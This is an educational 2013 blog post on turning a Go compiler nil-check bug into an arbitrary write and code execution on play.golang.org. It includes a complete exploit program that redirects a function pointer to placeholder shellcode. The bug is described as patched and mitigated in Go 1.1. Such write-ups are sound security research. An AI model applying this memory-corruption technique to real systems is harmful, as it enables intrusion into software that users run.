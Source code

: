 Title: Exploiting a Go Binary
Date: 2013-04-23
Tags: golang, exploitation
Summary: Earlier this year, tylerni7 showed us a proof of concept for a 32 bit Go exploit using <a href="https://code.google.com/p/go/issues/detail?id=5336">this issue</a>. geohot and I had a wager over who could get the first remote code execution on <a href="http://play.golang.org">play.golang.org</a>: he won, but just barely ;-). Props also to ricky for helping to find the underlying cause/writing the patch. Here is a summary of how we did it.

<h3>Introduction</h3>
Earlier this year, tylerni7 showed us a proof of concept for a 32 bit Go
exploit using <a href="https://code.google.com/p/go/issues/detail?id=5336">this
issue</a>. geohot and I had a wager over who could get the first remote code
execution on <a href="http://play.golang.org">play.golang.org</a>: he won, but
just barely ;-). Props also to ricky for helping to find the underlying
cause/writing the patch. Here is a summary of how we did it.

Note: [play.golang.org](http://play.golang.org) is properly sandboxed, so 
code execution there does not
actually let you do anything. Had this been a more serious bug that could
actually be used for anything malicious, we would have immediately reported it
privately.

This post is cross posted on the [PPP blog](http://ppp.cylab.cmu.edu/wordpress/?p=1087).

<h3>The Bug</h3>
<p>Go has support for embedded structs. You can define an embedded struct as follows:</p>
~~~
:::go
type Embedded struct {
   foo int
}

type Struct struct {
   Embedded
   bar int
}

var instance Struct
~~~
<p>
It is valid to do both <tt>instance.bar</tt> and <tt>instance.foo</tt>.</p>

<p>The problem comes when you try something slightly trickier:</p>
~~~
:::go
type Embedded struct {
   foo int
}

type Struct struct {
   *Embedded
   bar int
}

var instance Struct
~~~
<p>
When you access <tt>instance.foo</tt> (a member of an uninitialized struct), it incorrectly offsets from 0 rather than from the base of an <tt>Embedded</tt> struct. Normally, when dereferencing a pointer inside a struct, the go compiler
emits guard code which will cause a segfault if the pointer is nil.
However, this code is not emitted when the pointer is the first element
of the struct, since it's assumed that this will cause a segfault
whenever it is used anyway.  This assumption is not always valid, as the
pointer can be to a large struct such that the offsets of members of the large
struct are valid addresses.
</p>

<h3>The Vulnerability</h3>
<p>We define an enormous struct and use it to offset memory:</p>
~~~
:::go
type Embedded struct {
   offset [0x400100]byte
   address uint32
}

type Struct struct {
   *Embedded
   bar int
}
var instance Struct
~~~
<p>
Now we can do <tt>instance.address = 0xdeadbeef</tt> and we have written to <tt>0x400100</tt>! This is the arbitrary write primitive we need.</p>

<h3>The Exploit</h3>
<p>Once you have an arbitrary write in go, it is <em>really easy</em> to get arbitrary code execution. We put a function pointer in our data segment (we wanted to put it in the heap, but that didn't work on 64bit Go - apparently the size of a struct is limited to 32 bits. Luckily, the data segment is in the lower 32 bits) and change it to point to our shell code using the arbitrary write. Since Go has <em>no randomization</em> at all, this is as simple as running the program twice. Full exploit below:</p>
~~~
:::go
package main

import "fmt"

// Address to write, computed from a previous run.
const addr_to_overwrite = 0x50e2f0
// &shellcode, computed from a previous run.
const val_to_overwrite uint64 = 0xc200035160

type Embedded struct {
   offset [addr_to_overwrite]byte
   payload uint64
}

type Nested struct {
  // This magic is necessary is because there is an explict null check if
  // if the offset is greater than 0x1000.
  Embedded
}

type Struct struct {
 // The issue is that a reference to the embeded struct pointer here
 // will be offset from null (rather than the true base of the struct).
 // We thus just make sizeof(the embedded struct) large enough to point
 // to the address we want to overwrite.
 //
 // See https://code.google.com/p/go/issues/detail?id=5336
 *Nested
}

var unused = func () {}

func main() {
 s := &Struct{}
 shellcode := "\x90\x90\x90\x90\x90\x90\x90\xeb\xfe"

 fmt.Println("You should overwrite this: ", &unused)
 fmt.Println("With this: ", &shellcode)

 fmt.Println("***********************************************");
 fmt.Println("Overwriting ", &s.payload, " with ", val_to_overwrite)

 *(&s.payload) = val_to_overwrite;
 
 unused();
}
~~~

<h3>What Now?</h3>
Well, clearly the [issue](https://code.google.com/p/go/issues/detail?id=5336)
was fixed. I also think it is important for Go to add the protections
that come now standard with C binaries (ASLR, NX) - I posted 
[an article](|filename|/security/securing_and_exploiting_go_binaries.md) 
earlier about security in Go where I strongly advocated those protections. 
Luckily, Go 1.1. will be adding some of these protections: specificially, the 
above exploit will not work because [Go 1.1  uses a non-executable heap and stack](https://groups.google.com/forum/?fromgroups=#!topic/golang-nuts/o2Q5oc36Qt0).
